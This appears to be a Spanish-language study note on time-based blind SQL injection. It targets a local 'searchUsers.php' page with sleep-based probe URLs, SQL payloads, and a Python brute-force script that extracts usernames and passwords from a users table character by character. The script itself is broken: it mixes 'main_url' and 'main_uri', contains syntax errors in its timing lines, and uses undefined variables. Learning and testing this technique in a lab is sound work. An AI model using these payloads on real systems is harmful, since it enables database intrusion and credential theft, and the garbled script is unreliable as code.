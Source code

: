 -----
Tags: #timesqli

---------
Si con la siguiente sentencia, el servidor tarda 5 segundos en tramitar la respuesta, significa que es muy posible que sea vulnerable a time sqli.
```url
http://localhost/searchUsers.php?id=1 and sleep(5)
```

Si esta sentencia es correcta, el servidor tardará el tiempo del sleep.
```sql
select * from users where id = 1 and if(substr(database(),1,1)='h', sleep(5), 1);
select * from users where id = 1 and if(ascii(substr(database(),1,1))='68', sleep(5), 1);
```

Realizamos un script en python para explotar la vulnerabilidad anterior (ebemos instalar la libreria pwn con pip3).
```python
import requests;import signal;import sys;import time;import string
from pwn import *

def def_handler(sig, frame):
	print("\n\n[!] Saliendo... \n")
	sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")
	
	for position in range(1, 150):
		for character in range(33, 126):
			sqli_url = main_uri + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users), %d, 1))=%d, sleep(0.35), 1)" % (position, character)
		
			p1.status(sqli _url)
			time start = time.time()
			r = requests.get(sqli_url)
			time end = time.time()

			if time_end - time_start > 0.35:
				extracted_info += chr(character)
				p2.status(extracted_info)
				break

if __name__ == '__main__':
	makeSQLI()
```